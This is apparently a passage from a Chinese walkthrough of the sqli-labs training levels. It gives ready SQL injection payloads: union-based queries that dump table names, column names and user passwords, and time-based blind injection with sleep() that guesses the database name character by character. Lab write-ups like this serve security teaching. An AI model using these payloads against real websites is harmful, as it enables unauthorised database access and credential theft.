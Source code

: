 基于错误的GET双引号字符型注入



```
?id=-1") order by 3 --+
```



```
?id=-1") union select 1,2,3 --+
```

```
?id=-1") union select 1,2,database(); --+
```



```
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```



```
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```



```
?id=-1") union select 1,2,group_concat(username) from security.users --+
```



```
?id=-1") union select 1,2,group_concat(password) from security.users --+
```



### Less-5

双注入GET单引号字符型注入

```
?id=1' and sleep(5) --+
```

发现响应延迟



```
?id=1' and length(database())=8 --+
```



然后进行一位一位的爆库

0123456789qazwsxedcrfvtgbyhnujmikolp 进行爆库

